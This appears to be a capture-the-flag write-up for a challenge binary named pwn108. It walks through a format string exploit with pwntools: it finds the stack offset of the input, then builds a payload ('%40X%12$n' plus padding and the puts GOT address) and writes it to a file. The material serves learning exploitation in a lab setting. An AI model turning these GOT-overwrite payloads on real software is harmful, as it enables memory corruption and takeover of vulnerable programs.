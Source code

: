 ## Exploitation
First we must find the position where our input get's injected onto the stack.

![picture 68](/assets/images/7d5c2a79587735883d6854d98151c05b4f60821c19c0a0170f08dbbb16002b3f.png)  

Let's write the Puts GOT address into the 10th position using format string vulnerability

```python
from pwn import *

context.binary = binary = ELF("./pwn108.pwn108", checksec=False)

# PWNTools will get the offset from the binary!
got_puts_address = binary.got.puts
print("GOT puts address has an offset of {}".format(hex(got_puts_address)))

junk_payload = b"A"*0x12
```

After Explanation from Razvi  ==> https://www.youtube.com/watch?v=9SWYvhY5dYw&t=845s we can calculate the number of bytes to write by subtracting written bytes so far with desired value!.

Format specifier `%x` prints integers as hexadecimal!

```
payload = p64(got_puts_address) + b"%10$n"
```

Since put Address has 0x00 in it, we have to turn the payload around.

```
payload = b"%40X%12$nAAAAAAA" + p64(got_puts_address)
```

We need `AAAAAAA` in order to fill the bytes and with that our got_puts_address comes at the 12th position

```python
from pwn import *

context.binary = binary = ELF("./pwn108.pwn108", checksec=False)

# PWNTools will get the offset from the binary!
got_puts_address = binary.got.puts
print("GOT puts address has an offset of {}".format(hex(got_puts_address)))

#fill the read buffer. If my understanding is correct, we could also use readuntil from pwn tools and give an input here, but result should be the same.
junk_payload = b"A"*0x12

#payload = p64(got_puts_address) + b"%10$n"
#Turn the address around to avoid stopping reading because of null bytes
payload = b"%40X%12$nAAAAAAA" + p64(got_puts_address)
with open("payload", "wb") as f:
	f.write(junk_payload)
	f.write(payload)
```